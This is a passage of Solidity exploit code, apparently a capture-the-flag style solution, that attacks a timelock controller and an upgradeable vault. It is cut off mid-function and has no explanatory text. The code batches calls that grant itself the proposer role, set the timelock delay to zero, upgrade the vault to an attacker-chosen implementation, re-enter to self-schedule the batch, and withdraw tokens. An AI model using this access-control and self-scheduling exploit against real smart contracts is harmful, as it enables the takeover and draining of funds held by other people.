```Solidity
        calldatas[0] = abi.encodeWithSignature(
                            "grantRole(bytes32,address)",
                            PROPOSER_ROLE,
                            address(this)
                        );
        
        targets[1] = address(timeClock);
        values[1] = 0;
        calldatas[1] = abi.encodeWithSignature(
                            "updateDelay(uint64)",
                            0
                        );
        
        targets[2] = vault;
        values[2] = 0;
        calldatas[2] = abi.encodeWithSignature(
                            "upgradeTo(address)",
                            upgrade
                        );
        

        targets[3] = address(this);
        values[3] = 0;
        calldatas[3] = abi.encodeWithSignature(
                            "attack2()"
                        );
        

        targets[4] = vault;
        values[4] = 0;
        calldatas[4] = abi.encodeWithSignature(
                            "withdraw(address,address,uint256)",
                            token,
                            owner,
                            0
                        );       

        timeClock.execute(targets, values, calldatas, "");
        console.log( timeClock.delay() );

        
    }

    function attack2() external {

        console.log("scheduled");
        console.log( timeClock.delay() );

        address[] memory targets = new address[](5);
        uint[] memory values = new uint[](5);
        bytes[] memory calldatas = new bytes[](5);

        targets[0] = address(timeClock);
        values[0] = 0;
        calldatas[0] = abi.encodeWithSignature(
                            "grantRole(bytes32,address)",
                            PROPOSER_ROLE,
                            address(this)
                        );
        
        targets[1] = address(timeClock);
        values[1] = 0;
        calldatas[1] = abi.encodeWithSignature(
```